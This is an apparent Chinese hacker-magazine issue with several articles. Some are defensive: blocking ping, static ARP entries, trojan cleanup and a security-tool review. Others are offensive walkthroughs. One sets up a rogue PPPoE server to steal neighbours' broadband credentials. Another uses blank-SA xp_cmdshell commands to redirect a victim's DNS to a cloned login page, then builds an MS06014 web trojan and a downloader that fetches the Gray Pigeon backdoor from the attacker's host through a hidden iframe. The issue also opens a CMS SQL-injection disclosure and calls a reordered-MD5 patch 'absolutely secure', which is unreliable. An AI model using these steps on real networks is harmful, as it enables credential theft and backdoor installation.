打开“控制面板”→“性能和维护”→“管理工具”→“本地安全策略”，弹出“本地安全设置对话框”，右键单击“IP 安全策略”，在弹出的右键快捷菜单中选择“创建 IP 安全策略”选项（图1）。在“IP 安全策略向导”对话框中创建一个新的安全策略，输入相应的名称和描述（图2）。单击“下一步”按钮后，去掉“激活默认响应规则”选项，然后单击“下一步”按钮。选中“编辑属性”并点击“完成”按钮。

### 2. 添加一个安全规则

在上一步完成后会自动进入新创建的 IP 安全属性窗口“Deny Ping 属性”（图3），单击“添加”按钮来添加一个新的安全规则，这时会弹出“安全规则向导”窗口，然后依次在“隧道终结点”中选择“此规则不指定隧道”，在“网络类型”中选择“所有网络连接”，在“身份验证方法”中选择“Active Directory 默认值（Kerberos V5 协议）”（图4），然后继续进入“IP 筛选器列表”窗口。

### 3. 添加一个新的 IP 筛选器

单击“添加”按钮，输入筛选器名称（这个名称可以自己任意起，只是个标识作用）和描述信息，单击“添加”按钮，弹出“筛选器向导”窗口，单击“下一步”按钮，在“源地址”处选择“任何 IP 地址”。在“目标地址”处选择“我的 IP 地址”，在“协议类型”处选择“ICMP”，不选择“编辑属性”，最后单击“完成”按钮会自动关闭“筛选器向导”对话框，添加 IP 筛选器后的“IP 筛选器列表”（图5）。

### 4. 添加筛选器操作

在“安全规则向导”窗口中，选中刚刚创建的安全规则“Deny Ping”，单击“下一步”按钮，进入“筛选器操作”窗口。单击“添加”按钮，进入“筛选器操作向导”窗口，建立一个如图6所示的筛选器操作。单击“下一步”按钮选择“阻止”选项，单击“确定”按钮，然后在“筛选器操作”窗口中单击“下一步”按钮，不选择“编辑属性”，最后单击“完成”按钮。

最后，为了使新添加的策略生效，在本地安全设置中选中新策略，单击鼠标右键，在弹出的快捷菜单中选择“指派”一项，新的策略开始生效。

当然，这样设置的禁止 Ping 的安全策略是双向的，也就是不允许外部对本机的 Ping 操作，也禁止了本机对外部的 Ping 操作……如果 Windows 启动了路由和远程访问服务，那么作为路由的这台主机也可以通过设置路由和远程访问的过滤规则来禁止响应 ICMP Echo 请求。


## 防止局域网内的 ARP 欺骗

步之奇

关于 ARP 欺骗，在杂志上已经讲了许多了……那么如何来防止 ARP 欺骗呢？听人说使用 AntiARP 一类的工具就可以。其实使用简单的系统命令 arp 也能办到。arp 相关命令如下：

```
arp -a [inetAddr] [-N [ifacAddr]]
arp -g [inetAddr] [-N [ifacAddr]]
arp -d inetAddr [ifacAddr]
arp -s inetAddr etherAddr [ifacAddr]
```

ARP 表中添加一条静态记录。一般情况下，系统的 ARP 表是动态的……我们来写个批处理，内容如下：

```
@echo off
arp -s ...
ipconfig /all >ipconfig.txt
find "Physical Address" ipconfig.txt >mac.txt
find "IP Address" ipconfig.txt >ip.txt
for /f ... do set Mac=%%M
for /f ... do set IP=%%I
arp -s %IP% %Mac%
...
```

最上面是添加重要服务器的 IP 和 MAC 地址的对应关系……这样就可以简单地防止局域网中的 ARP 欺骗了。


## 让我们的密码永恒不“破”

杨若瑜

目前入侵网站使用最广泛的方法就是注入攻击了，寻找到注入点，猜解表名、字段名，继而猜解出管理员的密码，然后登录后台，获取 WebShell。对于获取到的密码大致有两种形式：一种是明文存储的……另一种则是使用 MD5 散列加密存储的……我们只需要给自己的论坛打上一个补丁就可以了。

解压 DVBBS 补丁的压缩包，然后将 MD5.ASP 文件替换掉 DVBBS 论坛下的 INC 文件夹里的 Md5.asp 即可……接下来使用同样的方法把 Dvbbs7.mdb 数据库替换到 Data 目录里的同名文件。

### 1. DVBBS 安装补丁

在安装补丁前，我们要注意的是，只有新安装的论坛才能打上这个补丁，因为毕竟是最为关键的 MD5 加密部分……已经安装好并使用一段时间了，则不适合打补丁。


找到第 34 行，根据提示，我们把 FunctionNumber 等于的那个值可以修改成任意一组八位的八进制数，也就是说每一位数不得超过 7，一共八位。比如，我把数字写成了 23587641（图2）。


这个很简单，你只要会使用记事本就可以自行修改。一定要记住了你所写的这八个数，接下来我们要利用 MD5 密码生成工具。在补丁包里有一个叫做 Admin 散列运算器.exe 的文件，运行之后把你刚才写的八位八进制数填到里面去，然后点击确定（图3）。程序将自动帮你计算出默认密码 admin 的散列（图4），我们可以把它复制下来。接着，使用 Access 打开 DVBBS 数据库，把算出来的散列代码填入 Dv_User 表中 Username 所对应的 admin 的 UserPassword 列中的项目，替换掉原来的密码就可以了（图5）。


关闭 Access，我们就可以把源程序放到 IIS 中去执行了。因为 DVBBS 没有安装程序，所以我们只能手动去更新它的补丁。像这类没有安装程序的论坛，安装此补丁的方法与上述过程一样，因为我们的 MD5.asp 补丁文件是通用的（包括很多国外的 ASP 论坛也适用）。

### 2. BBSXP 安装补丁

讲完了 DVBBS，我们再来给 BBSXP 打补丁。相对来讲，给 BBSXP 论坛打补丁要比 DVBBS 好打，因为 BBSXP 论坛本身具有自己的安装程序，也就不需要手动去计算管理员的密文，不需要使用 Access 修改数据库了。

同样地解压补丁包，把 MD5.asp 直接替换原来 INC 目录下的 MD5.asp 文件即可，然后放入 IIS 中执行安装即可。这种自带安装程序的 ASP 论坛或者聊天室等程序安装此补丁都是使用这种方法。

### 3. 原理

说到原理，其实非常简单。MD5 一共分为四种函数方式：F、G、H、I。正常顺序算下来应该经历 16 次 F 运算、G 运算、H 运算和 I 运算，总共加起来是 64 次运算。那么我们打乱它的正常运算顺序，就可以得到完全不同的散列。

我先在这 64 次运算的前后分别加入一句 `For i = 1 To 8`，这样就产生了 8 次循环。我又在 For 循环和 64 次运算之间插入 `Select Case Mid(FunctionNumber, i, 1)` 一行，并适当地每隔 8 行放下一个 Case，最后写上一句 `End Select` 结束了选择结构。这样运算的流程就可以按照用户所写的 FunctionNumber 而走，用户可以产生 16777216 种不同的流程，这对于想要破解散列的人来说，几乎是不可能完成的任务，因为破解者一没有你的流程，二没有强大的计算机，所以从理论上来讲，这种设计是绝对安全的。

> （本文所涉及到的加密补丁和相关程序已收录到光盘中）

## 系统的保护神——安全护盾

安全护盾是一款集系统防护和文件防护于一体的双重安全工具，具有强大的核心监控功能，可以对程序、网络连接、流氓软件、系统目录进行实时化监控。这个软件还有独占式文件保护功能，可以保证文件的存储和运行安全，如图1。

先看“核心监控”功能，分为“程序实时监控”“网络实时监控”“流氓软件实时监控”“系统目录监控”和“启动项监控”。

“程序实时监控”就是在程序运行时进行拦截，再由用户选择进行相应的操作，BlackIce 防火墙也有类似的功能。对于一些已知安全程序，可以直接选择“解除拦截”。比较常用的软件如 QQ，可以选择“信任此程序”或是运行后选择“添加为例外程序”，避免每次都进行拦截操作。对于一些不熟悉的程序，还可以选择“在线查询信息”进行了解。这个功能可以用来对付一些在后台悄悄运行的程序，比如各种木马，特别是一些 DLL 方式启动的程序，一般情况下启动 rundll32.exe 的操作就要注意了。这个程序还是比较智能的，system.exe 是网吧管理软件的进程，安全级别显示为“危险”，如图2。


图2

“网络实时监控”显示的是处于活动状态的本地连接，可以看到远程 IP 和端口，觉得有问题的不明连接可以直接关闭，如图3。

“流氓软件实时监控”可以对付 60 种常见的流氓软件，比如 dudu 加速器、划词搜索、中文上网等，点击“规则管理”查看所有，如图4。


图3


图4

“系统目录监控”对写入 Windows 目录及子目录中的文件进行监控，默认安全级别是“中”，只监控写入到系统目录的 exe 文件。选择“高”则监控所有类型的文件，不推荐这个级别，如图5。

“启动项监控”就是检测一些常见的注册表启动项目操作，比如写入 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`。感觉监控的项目还是比较少，至少“开始菜单”中“程序组”的启动项目就没有监控，不能不说是个遗憾。再结合“系统目录监控”功能，可以对大多数写注册表和系统目录的木马进行主动防御，如图6。


图5


图6

添加例外程序是在注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\SAFEGUARD\USERADD` 下，显示的危险级别（也就是木马程序的信息）在软件安装目录下的 DanPro.dat 文件中；正常程序信息对应的是 Safep.dat，网络监控端口对应的规则是 DanPart.dat，流氓软件数据库是 passc.dat。大家可以自己修改添加，使程序更加完善，如图7。


图7

再介绍下文件防护，建议给程序设置密码后使用此功能。这里有两个选项：独占完全锁定和独占只读模式。独占完全锁定为无法运行保护程序，包括复制、删除等，系统都提示文件正在被使用。独占只读模式可以运行程序，但不能改名和删除，这样就不怕别人随便动我们的东西了。被保护的程序信息保存在软件安装目录下：独占完全锁定功能的是 Lock!.dat，独占只读模式的文件是 lockr.dat，如图8。


这个软件还有几个辅助工具，包括文件粉碎器、注册表备份工具、反恶意修改工具和 U 盘文件保护器，都是一些比较实用的小软件，使用方法比较简单，如图9。

我详细说一下 U 盘保护器，它的原理就是利用 sglock.exe 的独占锁定模式进行保护。选择保护的文件后生成，在 U 盘目录中可以看到新增三个文件 lock.dat、autorun.inf 和 sglock.exe。打开 autorun.inf，其内容如下：

```ini
[autorun]
open=sglock.exe
shellexecute=.\sglock.exe
shell\Auto\command=sglock.exe
```


利用 U 盘自动播放的原理，运行 sglock.exe 进行保护。破解方法也很简单，只要关闭 sglock.exe，被保护的程序就能正常运行了（图10）。

安全护盾运行后有两个进程，互相保护，关闭其中一个另一个会马上启动，只关闭一个是无法结束进程的。不过使用 IceSword 同时选中这两个进程，可以直接关闭，不会再启动了。另有软件所有的配置都是以明文形式存放的，没有加密，至少可以修改它的配置文件来绕过验证。总体来说，安全护盾还是一个比较实用的软件。

## 为了我们的电脑，请将安全进行到底

对于个人用户的电脑来讲，他们通常受到的攻击并不是来自黑客的入侵，而是来自于病毒与木马的攻击。绝大多数都是因为访问了不安全的网站（网页木马），恶意代码利用系统或 IE 的安全漏洞自动将木马下载到电脑中并执行，或使电脑被远程控制，QQ、MSN、邮箱、网络游戏甚至网银账号密码被窃取。本文将以 Windows XP 系统为例，介绍如何防范、清除这类病毒木马，以保护电脑安全。

### 一、对于病毒和木马的处理

当你感觉到自己的电脑出现异常，CPU 占用率很高、速度很慢，或者发现了可疑文件，则说明你的电脑有可能中了病毒或木马。此时应先关闭 QQ、MSN、邮箱等，暂时不要登录，以防密码被盗。如果发现鼠标在屏幕上乱动，说明电脑可能已被远程控制，应立刻拔掉网线断开网络连接。然后在“开始-运行”中输入 cmd，在命令提示符下输入 `netstat -an` 来检查连接情况。

查看本机上开放的端口，看是否有什么可疑的端口连接到外网，如图1。


图1

其次就是要善于利用杀毒软件了，一般有全盘扫描和系统盘扫描之分。因为木马一般感染的是系统盘，比如 C 盘，所以有时扫描系统盘就可以了；如果其他盘也感染了病毒，则应全盘扫描。任何杀毒软件都要及时升级病毒库，否则对最新病毒和木马查杀能力有限。不能任何时候都依赖杀毒软件，还要具备相应的防护和查杀知识。

正式杀毒前第一步是清除木马文件。先检查系统盘（如 C 盘），在删除木马文件之前应显示所有隐藏文件。打开 C 盘，在“工具”菜单选择“文件夹选项”，在“查看”中勾选“显示所有文件和文件夹”，并取消“隐藏已知文件类型的扩展名”（图3）。

接下来要停止木马或病毒进程。使用 Ctrl+Alt+Del 打开任务管理器（图2），查看进程中是否有可疑项。正常进程如 `iexplore.exe`、`Apache`、`winword`、`taskmgr` 等；可疑进程名常具迷惑性，如 `iexplre`、`svch0st`（注意字母与数字差异）。不确定进程可通过 Google/Baidu 搜索判断。


图2


图3

> **提示：**几乎所有病毒或木马都会有共同特征：启动后会在进程列表中出现可疑进程；部分木马会伪装成系统进程名（如与 `svchost.exe` 相似），需仔细辨别字母和数字差异。

> **提示：**中毒后不要直接双击磁盘。应先在“地址栏”输入盘符路径进入，查找根目录是否存在 `autorun.inf` 与可疑 `.exe` 文件；若直接双击，可能再次触发木马运行。

如果确认电脑中有病毒或木马，可根据木马名称、症状在 Google/Baidu 搜索清除方法。对新手来说，杀毒软件必不可少。文中推荐使用卡巴斯基、诺顿等，认为其查杀能力较强、速度较快、占用内存较小。

重点检查 `C:\Windows` 与 `C:\Windows\System32` 目录，查看隐藏的 `.exe`、`.com` 文件并检查属性。不再使用的可先放入回收站，重启无异常再清除。可按“修改时间”排序辅助排查；木马文件常位于列表后部。若删除时提示“文件正在运行，无法删除”，则说明木马还在运行，需要先结束木马的进程后再删除。不过许多时候，进程也不是那么好结束的。

此外，许多木马喜欢隐藏在 `C:\Documents and Settings\[用户名]\Local Settings\Temp` 等临时目录下面，往往也不容易删除，可以重新启动电脑，按住 F8 键，选择安全模式，再次进入该目录删除。或者使用 Unlocker V1.8.5 等工具删除和解锁文件……


图4


图5

使用它来查看端口连接状况以及进程是非常方便的，端口信息比 `netstat -an` 更强大；“进程查看”功能也比任务管理器更强，可以看到进程路径。例如 `C:\windows\system32\svchost.exe` 是正常文件……结合 `autorun.inf`、可疑 `exe/com` 文件等可进一步排查。

> **提示：**如果你的 exe 文件（即应用程序）都无法运行，说明文件关联被修改。可将文件后缀从 `exe` 改成 `com` 临时执行，再修复文件关联。

假设你已经完成了上述步骤，那么现在就是关键的修复启动项了……如果你对注册表很熟悉，可以在“开始→运行”中输入 `regedit` 打开注册表编辑器。

如果文件关联被修改，可在 `C:\Windows` 目录找到 `regedit.exe`，改名为 `regedit.com` 再尝试打开。常见键值如下（`HKLM` 为 `HKEY_LOCAL_MACHINE`，`HKCU` 为 `HKEY_CURRENT_USER`）：

> **常见启动相关注册键**
> - **Load**：位于 `HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\load`
> - **Userinit**：位于 `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`
> - **Explorer\Run**：位于 `HKCU/HKLM ...\Policies\Explorer\Run`
> - **RunServicesOnce**：位于 `HKCU/HKLM ...\RunServicesOnce`
> - **RunServices**：位于 `HKCU/HKLM ...\RunServices`
> - **RunOnce**：位于 `HKCU/HKLM ...\RunOnce`
> - **Run**：位于 `HKCU/HKLM ...\Run`

如果你对注册表一无所知，那么还是使用木马辅助查找器 2005 这个小工具吧，点击“启动项管理”即可识别如 `igfxtray`、`hied`、`badiu` 等可疑项；必要时可用 `Autoruns.exe` 做更专业的启动项排查。


图6

此工具在清除流氓软件 BHO 等时候更显得方便。我们还可以在网上下载一些启动项修复工具，这里就不一一列举了。修复文件关联，实际上这一步应该是在修复系统启动项之前进行的。文件关联被木马破坏之后，所有 exe 文件无法运行，而木马又被运行了，也有 txt 文件关联被破坏的。使用注册表修复的办法是打开注册表，按 F3 搜索“.exe”即可进行相应的修复；不过对于菜鸟，没必要掌握这个，还是使用上面提到的“木马辅助查找器 2005”的“文件关联管理功能”就可以自动修复。只要按我讲的一步步操作，到了这一步就已经差不多了，电脑应该是清净了，如果还不行，那就重新进行以上的操作吧。


右下角有个会闪动的电脑图标（图8），也可以在桌面上找到网络邻居，点右键选择“属性”，就可以看到本地连接了，如图9。好了，在本地连接上点右键“属性→高级（图10）”，然后选择防火墙设置。看到防火墙设置了吗？设置为开启并且不允许例外就可以了。这样设置后，如果本机有程序要访问网络，就会弹出一个是否允许的对话框，这时候我们就要仔细看了：如果是正常的程序，你就选择允许；如果是未知的或者是反弹木马、远程控制软件，就选择拒绝。防火墙还可以抵御外部攻击，防止非法访问，比如局域网内部的扫描、攻击等。

### 二、浏览器被劫持怎么办？

我们最常使用的浏览器就是 IE 了，是不是经常被一些流氓软件捆绑、乱弹广告？上网最大的痛苦莫过于此。流氓软件本质上也可以看作是一种木马，而且一般和浏览器捆绑，以 DLL 的方式注入到浏览器的进程，更加隐蔽，难以清除。目前的流氓软件也和常见木马类似，是被某些网站自己或被黑客植入恶意代码而使用户中招的。流氓软件的种类也很多，大部分可以采用上面提到的办法进行清除。当然我再推荐一些常用的小工具，可以拯救浏览器。第一个就是“黄山 IE 修复专家”，这个工具很好使用，威力也很强大，可以轻松搞定流氓软件。另外推荐一个很厉害的叫 HijackThis 的工具，专门对付插件，建议下载一个汉化的版本。


### 三、一劳永逸，百毒不侵

系统被病毒和木马感染，除了人为因素，比如接收并运行了好友发过来的恶意文件，下载并运行了来路不明网站上的软件，将他人带有病毒的 U 盘插在自己电脑上等，还有一个重要的原因就是系统存在的安全漏洞，容易被恶意软件、恶意代码所利用。因此最重要、最保险的办法就是升级系统，安装系统补丁，修补安全漏洞。如果你不想每天都和木马奋战，也不想从事木马研究工作，强烈建议及时为自己的电脑打上补丁。

打补丁的办法如下：“开始”→“设置”→“控制面板”，接着打开“自动更新”，设置为自动安装补丁，如图7。这样设置好后，系统就会自动下载安装补丁了，简单吧！另外，除了杀病毒软件，我们还要安装好网络防火墙。对于个人用户，不能及时发现攻击，那么防火墙就可以自动地为我们防御了。我们可以使用系统自带的防火墙，当然也可以安装使用第三方防火墙。首先，我们看到右下角那个网络连接的图标了吗，就是网卡。

到此，我们基本上可以做到远离木马、远离攻击了。为了更加安全，我们还可以升级最新的 IE 浏览器到 7.0，打开 http://www.microsoft.com/china/windows/ie/default.mspx 下载安装即可。另外再告诉大家如何备份系统、一键还原。备份系统的好处是避免系统崩溃，而且当你的系统被病毒感染、无力恢复时，还原一下系统，系统又回到原来的样子，就像《大话西游》里面的月光宝盒那样。

如果你有光驱，可以使用光盘版本的 Ghost；如果没有，而且你很懒，也很菜，那么我向你吐血推荐“一键还原精灵”这个软件。到网上下载一个最新的稳定版本，立即安装。那么系统重新启动的时候，按 F11 键进入一键还原精灵界面，你只要轻轻地按一下鼠标，软件就能自动备份系统；也可以轻轻地按一下鼠标，恢复系统盘到上一次备份的状态。该软件官方最新版本的下载地址为：http://doshome.com/soft/SoftView/SoftView_240.html 。

> 本周必补习
>
> **1、什么是嗅探（sniff）？**  
> 嗅探是一种被动的攻击方式，它通过各种手段截获到他人的通信数据，如果在这些数据里看到自己感兴趣的内容，就把它保存下来。
>
> **2、什么是 UNIX**  
> UNIX 是一个强大的多用户、多任务操作系统，支持多种处理器架构。经过长期的发展和完善，目前已形成一种主流的操作系统技术和重要技术族群，因其可靠性高、可移植性强，在网络和通信领域应用广泛。

## PPPoE 验证缺陷带来的危害

目前国内最为普通的两种宽带接入方式是 ADSL 和 FTTx+LAN。ADSL 通过电话线和 ADSL MODEM 连接到远程 ISP 的 PPPoE 服务器获取动态 IP；FTTx+LAN 通过光纤到小区交换机，用户再通过交换机接入 ISP 的 PPPoE 服务器。文章指出在小区宽带中可利用 PPPoE 验证缺陷进行账号密码窃取。

### 一、PPPoE 验证过程与缺陷

PPPoE 会话由发现阶段和 PPP 阶段组成。客户端需先在发现阶段识别并建立会话，再进行后续认证与资源分配。发现阶段基于网络拓扑，客户端可发现多个 PPPoE 服务器并选择目标建立连接。文中强调如果可在本地伪造 PPPoE 服务器并诱导用户认证，则可能截获用户账号与密码。

### 二、架设 PPPoE 服务器

通过安装 RASPPPoE_99 并在“本地连接”属性中添加协议（从磁盘安装），选择 `ppp over Ethernet protocol`，完成后在 TCP/IP 中配置本机地址（示例：192.168.0.4/255.255.255.0），即可使本机具备 PPPoE 服务端相关能力。


### 三、开启 WinServer 2003 的路由与远程访问

在“管理工具”中运行“路由与远程访问”，对本地图标执行配置向导，选择“远程访问（拨号或 VPN）”，再选择“拨号”，并设置地址池范围（示例：192.168.0.5–192.168.0.253），完成后启用服务。


随后在服务器属性中调整安全选项（如身份验证方法中的加密相关设置），并在远程访问策略与连接属性中继续配置授权与访问控制项。


然后再点击“编辑配置文件”，切换到“身份验证”项，只要在“未加密的身份验证”前打“勾”，其它全部为空就可以了，如图7。此时会弹出一个帮助主题，选择“否”，回到“远程访问策略”，再右击“到其他访问服务器的连接”的属性，设置和刚才“到 Microsoft 路由选择和远程访问服务器的连接”是一样的。

### 四、监听别人的秘密

经过上面的一系列设置，现在我们就可以监听别人的宽带账号和密码了。先安装好 WinPcap 驱动，再安装监听软件 ethereal。打开 ethereal，点击“Capture”，选择“start”，里面的设置不用去更改，保留默认，再点 OK，如图8。


接下来的工作就交给 ethereal，我们等着鱼儿上钩好了。不一会儿，就监听到好多数据包了，点“Stop”，来看看是否抓到了账号和密码，如图9。图中的 jxlan222996 就是账号（中间那个空格不算的），而下方是得到的密码。

此时对方的电脑拨号是不会成功的，总会提示 691 错误（用户名或密码不正常），如果他们打电话给电信要求电信检查的话，就很容易被发现，所以我们应该想办法能够使对方拨号成功，以方便进一步的入侵和完成其它的操作。

### 五、局域网大入侵

右击“我的电脑”，选择“管理”→“本地用户”，新建一个用户名为 jxlan222996、密码为 2996 的账号。在“拨入”选择“通过远程策略控制访问权限”，设置允许 jxlan222996 拨入。现在对方的电脑就能成功地通过我们的 PPPoE 验证拨号了！而且对方会通过本机作为代理来上网，只是我和对方在一个局域网里，并且对方的电脑是通过我的电脑作为网关进行上网的。

我们再回到路由和远程访问中，点击一下“远程访问客户端”，已经有一台名为 jxlan222996 的主机了。双击这台主机，我们就可以看到 DHCP 所分给它的 IP 地址为 192.168.0.6，如图10，再来 PING 一下，如图11。嘿嘿，此时如果开个 Sniffer 来监听对方主机的一些账号和密码，那还不是手到擒来！大家可以参考《黑客 X 档案》06 年第 10 期中“利用 DNS 欺骗在局域网中挂马”一文中所介绍的方法来进一步扩大成果！


本文所介绍的方法，危害性太大了，希望大家在测试的时候，小心慎重！

> **关键词解释：PPPoE**  
> 英文全称（Point-to-Point Protocol over Ethernet），中文是以太网上的点对点协议。它是通过以太网来传输 PPP 数据包的一种网络接入技术，通常用于 ADSL 宽带拨号场景。用户端常见于通过 ADSL Modem 或路由器进行认证接入，操作系统中可通过“宽带连接”方式建立会话。

> ### 小编点评：
> 本文涉及到了多方面的综合技术，结合起来完成了一件在小区宽带中危害相当大的入侵。文章按步骤讲解，但建议读者以学习原理和安全防护为目的。

## 巧用 Netsh 命令来玩内网挂马

旭方（高春雷）


为了方便学生存储课堂作业，学校在内网服务器开通了网络硬盘服务。本文演示从在地址栏输入 `www.net.edu` 到进入网络硬盘登录页的过程。

### 一、DNS 相关知识恶补

`www.net.edu` 是域名。DNS（Domain Name Server）用于将域名解析为对应的 IP 地址，使用户无需记忆复杂 IP 即可访问主机。

当浏览器输入 `www.net.edu` 后，会先询问首选 DNS 服务器该域名对应的 IP（例如 `172.16.0.2`），再访问该地址对应的 Web 服务。


若将对方电脑首选 DNS 改为攻击者控制的 DNS，并把 `www.net.edu` 解析到攻击者主机，即可把访问请求导向伪造登录页面，从而实施内网钓鱼。

在“网上邻居”→“属性”→“本地连接”→“Internet 协议(TCP/IP)”中可查看 DNS 设置。也可在命令行用 `ipconfig /all` 查看当前网络配置。


```bash
ping www.net.edu
```

通过 `ping www.net.edu` 返回结果可看到该域名被解析到的 IP，并可据此判断 DNS 与 Web 服务所在主机关系。

> ### 小编注：
> 上文过程看起来复杂，实际可简化为：
> 1. 控制/搭建自己的 DNS 服务器；
> 2. 修改对方网络配置，使 DNS 指向自己；
> 3. 将目标域名（如 `www.net.edu`）解析到攻击机；
> 4. 准备好伪造 Web 服务等待访问。

### 二、Netsh 命令的妙用

核心问题是如何批量修改对方首选 DNS。可使用 Windows 自带 `netsh` 命令导出与编辑网络配置。

```bash
netsh -c interface ip dump >c:\xufang.txt
```


我已经对部分信息进行了说明，其实我们需要更改的只有两个地方：

- 将 IP 地址改为对方电脑的 IP 地址，因为这些信息最终是要导入对方电脑的，如果 IP 地址不进行更改的话，就会造成 IP 冲突！
- 首选 DNS 服务器处的 IP 地址改为我们电脑的 IP 地址。

使用 Netsh 命令导入先前所备份的信息的方法是输入命令：`netsh -f 文件名.txt`，但我们怎么才能将刚才 xufang.txt 中的内容弄到对方电脑中呢？经常玩脚本入侵的朋友应该对 SQL Server 中的 xp_cmdshell 扩展存储过程不陌生吧！在 SA 权限下使用它来执行系统命令是再爽不过了！由于我们学校机房为了学生练习方便，所以 SQL Server 中的 SA 密码都是为空的。因此我们使用 SQL Server 的查询分析器连接到目标电脑中，然后调用 xp_cmdshell 扩展存储执行 echo 命令将 xufang.txt 中的内容逐行输入到对方电脑的一个文本文件中，具体操作如下。

打开 SQL Server 的查询分析器，然后选择一个目标，如图4。接着在“连接使用”处选择“SQL Server 身份验证”，“登录名”处填 sa，密码为空，然后点确定。成功后我们就会以 SA 权限连接到对方的电脑中，这可是最高权限哦，接下来就可以为所欲为了！


刚才 xufang.txt 中凡是以“#”符号开头的行为注释，在实际的使用中是被忽略掉的。因此我们可以在查询分析器中使用 echo 命令依次将有用的部分写到目标电脑的 `c:\config.txt` 中：

```sql
exec master..xp_cmdshell 'echo pushd interface ip >c:\config.txt'
exec master..xp_cmdshell 'echo set address name="本地连接" source=static addr=172.16.2.10 mask=255.255.0.0 >>c:\config.txt'
exec master..xp_cmdshell 'echo set address name="本地连接" gateway=172.16.0.1 gwmetric=1 >>c:\config.txt'
exec master..xp_cmdshell 'echo set dns name="本地连接" source=static addr=172.16.2.9 >>c:\config.txt'
exec master..xp_cmdshell 'echo add dns name="本地连接" addr=202.97.227.138 >>c:\config.txt'
exec master..xp_cmdshell 'echo set wins name="本地连接" source=static addr=none >>c:\config.txt'
exec master..xp_cmdshell 'echo popd >>c:\config.txt'
```

然后点击“执行查询”，或者直接按 F5 也可以，如图5！这样修改刚才我们修改过的 xufang.txt 文件的内容 echo 到了对方电脑 C 盘下的 config.txt 文件中了。


> **小知识：echo > / >>**  
> `echo` 命令会将 `>` 之后指定的内容写入文件。比如在命令行下输入 `echo abc > a.txt`，可以把字符串 abc 写到 a.txt 文件里。  
> 如果 a.txt 里原先有别的内容，则会被完全覆盖掉；如果使用 `echo test >> a.txt` 的话，就会把 test 追加到 a.txt 的最后一行。  
> 大家可以自己执行查看效果。所以在刚才设置的命令里，`>` 和 `>>` 一定要区分清楚，写错一个地方都有可能导致文件生成错误，而最终导致目标修改网络配置失败。

输入 `type c:\config.txt` 命令来仔细确认一下文件的内容别写错了，不过记住先不要马上将刚才输入的 config.txt 文件导入对方的网络配置！因为我们的电脑还没有搭建好 DNS 服务器，也没配置好 Web 服务，所以此时更改对方的网络配置是会露馅的！

### 三、DNS 服务器的建立

在建立 DNS 时，可作如下理解：`www.net.edu` 中，`edu` 是“区域”，`net` 是“域名”，`www` 是“主机”。

- 建立 edu 区域。操作：开始→设置→控制面板→管理工具→DNS→控制台根节点→DNS→410-09（410-09 为作者的电脑名）→正向搜索区域。  
    
  

如图6。右键→新建区域，在“区域类型”中选择“标准主要区域”，如图7。“区域名”中输入“edu”，如图8，其它保持默认即可！


- 建立 net 域名。操作：edu → 右键→新建域，如图9，然后在“键入新域名”中输入“net”确定。
- 建立 www 主机。操作：net → 右键→新建主机，如图10，在“名称”处输入“www”，“IP 地址”处输入本机的 IP 地址，比如“172.16.2.9”，如图11。


点“添加主机”，如果看到如图12所示的提示信息就证明成功了。


### 四、配置 Web 服务并挂马

DNS 服务端我们已经建立好了，接下来就是在我们的电脑上配置 Web 服务了！为了避免目标有所怀疑，事先还要将网络硬盘的登录首页保存下来。方法是在进入网络硬盘主页后点击“文件”→“另存为”，然后选择要保存的路径即可，如图13是我保存的登录主页，怎么样？很逼真吧！

接着我们打开“Freda ASP Web 服务器”，选择“参数设置”，在“根目录”处选择刚才保存网络硬盘登录首页的文件夹，然后在“缺省文件”处输入主页的名称：index.html。这里的 index.html 就是我保存的登录首页的名字，这样当对方访问我的电脑时就会默认进入该页面了，然后点击“OK”就完成设置，如图14。


我们再来配置一个网页木马，我选择的是“HackGp MS06014 生成器 免杀版”。打开后在“木马地址”处填写 `http://172.16.2.9/xufang.exe`，172.16.2.9 是我的电脑的 IP，xufang.exe 是我配置的一个下载者，目的是从我的电脑上下载灰鸽子服务端。之后可选择是否启用加密功能，然后点击“生成网页”，如图15。


成功后会在当前目录下生成一个名为“hackgp.htm”的文件，我们将其拷贝到 `c:\xufang` 目录下。然后打开“Cn911 下载者 2.5”，在“输入下载地址”处输入灰鸽子服务端地址。本文把配置好的灰鸽子服务端放在了 `c:\xufang` 下并命名为“grey.exe”，所以就填入 `http://172.16.2.9/grey.exe`，然后点击“添加”将其加入下载地址列表中，如图16。当然你也可以添加更多后门程序（如 pcshare 等）。然后点“生成”，保存目录选择 C 盘 `\xufang`，并将其命名为“xufang.exe”。


网马已经做好了，下面我们就将它挂到主页上吧！使用记事本打开 `index.html`，在最后一行写入以下代码并保存：`<iframe src=hackgp.htm height=0 width=0></iframe>`。接下来使用查询分析器连接到对方的电脑中，输入 `exec master..xp_cmdshell 'netsh -f c:\config.txt'`，按 F5 执行……（后略）


图17

**小编：**

刚开始看到这个题目的时候，我以为这是一个很特别很新颖的思路……不过考虑到 `netsh` 这个命令很少被人提到，搭建 DNS 服务器也是小黑们以后找网络安全相关工作时必备的知识之一，再加上详细而完整的挂马全过程操作，文章的可读性还是很强的！

## 动易，还是动易！

### 动易网站最新漏洞大集合

动易网站管理系统是当前中国最具性价比、最受欢迎的 CMS 系统和电子商务系统……Bug.Center.Team（漏洞预警中心）在十月中旬对动易网站管理系统进行了系统的代码安全性检查，发现了多个高危漏洞并通知了官方。

### 漏洞一、评论中心 MSSQL 注入漏洞

我们先来看看 `newcomment.asp` 文件，这个文件是他们的评论中心，作用是显示某个版块的评论。第40行开始代码如下：

```
ModuleName = Trim(request("ModuleName"))
ChannelID = PE_CLng(Trim(request("ChannelID")))
ClassID = PE_CLng(Trim(request("ClassID")))
Num = PE_CLng(Trim(request("Num")))
ShowPic = PE_CLng(Trim(request("ShowPic")))
...
Select Case ModuleName
  Case "Article"
    ModuleId = 1
  Case "Soft"
    ModuleId = 2
  Case "Photo"
    ModuleId = 3
  Case "Product"
    ModuleId = 5
End Select
```

```
Case "Photo"
  ModuleId = 3
Case "Product"
  ModuleId = 5
End Select
```

第82行代码开始如下：

```
if ModuleName <> "" Then
  if ChannelID <> 0 Then
    if ClassID <> 0 Then
      sqlComment = "Select top " & Num & " ..."
    Else
      sqlComment = "Select top " & Num & " ..."
    End If
  Else
    sqlComment = "Select top " & Num & " ..."
  End If
Else
  sqlComment = "Select top " & Num & " * from PE_Comment ..."
End If
```

## 黑客研究院

